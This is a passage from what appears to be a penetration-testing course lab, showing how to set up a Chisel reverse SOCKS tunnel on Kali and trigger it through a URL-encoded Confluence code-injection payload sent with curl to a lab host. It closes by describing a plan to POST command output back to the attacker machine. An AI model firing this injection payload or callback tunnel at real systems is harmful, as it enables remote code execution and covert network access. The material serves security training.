 ```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```

> Listing 6 - Starting the Chisel server on port 8080.

The Chisel server starts up and confirms that it is listening on port 8080 and has reverse tunneling enabled.

Before we try to run the Chisel client, we'll run **tcpdump** on our Kali machine to log incoming traffic. We'll start the capture filtering to **tcp port 8080** to only capture traffic on TCP port 8080.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

> Listing 7 - Starting tcpdump to listen on TCP/8080 through the tun0 interface.

Next, we'll try to start the Chisel client using the injection, applying the server address and the port forwarding configuration options on the command line.

We want to connect to the server running on our Kali machine (**192.168.118.4:8080**), creating a reverse SOCKS tunnel (**R:socks**). The **R** prefix specifies a reverse tunnel using a **socks** proxy (which is bound to port **1080** by default). The remaining shell redirections (**\> /dev/null 2>&1 &**) force the process to run in the background, so our injection does not hang waiting for the process to finish.

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

> Listing 8 - The Chisel client command we run from the web shell.

We'll convert this into a Confluence injection payload and send it to CONFLUENCE01.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

> Listing 9 - Starting the Chisel client using the Confluence injection payload.

However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity.

This indicates there may be something wrong with the way we're running the Chisel client process on CONFLUENCE01. However, we don't have direct access to the error output when running the binary. We need to figure out a way to read the command output, which may be able to point us towards the problem. We should then be able to solve it.

To read the command output, we can construct a command which redirects stdout and stderr output to a file, and then send the contents of that file over HTTP back to our Kali machine. We use the **&>** operator, which directs all streams to stdout, and write it to **/tmp/output**. We then run **curl** with the **\--data** flag, telling it to read the file at **/tmp/output**, and POST it back to our Kali machine on port 8080.

